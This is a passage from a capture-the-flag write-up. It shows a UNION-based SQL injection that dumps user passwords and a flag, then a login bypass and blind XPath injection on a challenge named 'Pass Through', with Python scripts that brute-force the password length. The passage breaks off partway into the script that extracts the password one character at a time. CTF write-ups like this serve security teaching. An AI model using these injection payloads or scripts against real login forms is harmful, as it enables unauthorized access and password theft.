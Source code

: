 Unfortunately there are a lot of flags, we can try them all.. or be a little bit smarter.
Since we can dump the content we can try to export the "comment" section

{% highlight php%}
1'  union select 1,2,3,gRoUp_cOncaT(comment,password,0x7c),5,6 fRoM users#
I love french fries and create CTFECW{77a66a027d20c8ecce920d3c3d8fb2c8}|,
{% endhighlight %}
This one looked promising, and we can validate with it.



## Web 100 - Pass Through
At first, I was looking for an SQL injection in order to bypass the login, the following payload worked:
{% highlight php%}
Username:admin
Password:' or '1'='1
Authentification validée. Le mot de passe est le flag.
{% endhighlight %}
It says the "password is the flag", damn we need to extract it with a blind injection. After a lot of tries I discovered it was an XPATH injection instead of an SQL. We will use the string-length to check the size of a string, here we know the size of the username, this will help verify our guess.
{% highlight php%}
' or '1'='1' and string-length(username)=5 and '1'='1
' or '1'='1' and string-length(username)>4 and '1'='1
' or '1'='1' and string-length(password)>40 and '1'='1 NOK
' or '1'='1' and string-length(password)>10 and '1'='1 OK
' or '1'='1' and string-length(password)>20 and '1'='1 OK
' or '1'='1' and string-length(password)>30 and '1'='1 OK
{% endhighlight %}


Now we can script this in order to extract the size of the password, since we know it's >20 and <40.
{% highlight python%}
passwdlen = 0
for i in range(20,40):
payload = {
  'nonce':'26a7ef027c271845670d1abc96014f2cfa5df865721b70d43cb51a0d93264553d1411815be8f68132ef7927e3a8eeb21a8da3b88fc0f521513babd55b10c9d29',
  'username': 'admin',
  'password': "' or '1'='1' and string-length(password)=REPLACE and '1'='1".replace('REPLACE',str(i))
}
r = requests.post(url, data=payload, cookies = {'session': session}, verify=False ).text
if not "invalide" in r:
passwdlen = i
print "Password length : "+str(i)
{% endhighlight %}
The output of this script will give the the length of the password : 37

Now we will extract the characters one by one with the "substring" method, e.g:substring("ABCD",2,1)='B'
{% highlight python%}
#!/usr/bin/python
# -*- coding: utf-8 -*-
import sys, getopt
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning

if __name__ == "__main__":
  requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
  url = "https://challenge-ecw.fr/chals/web100"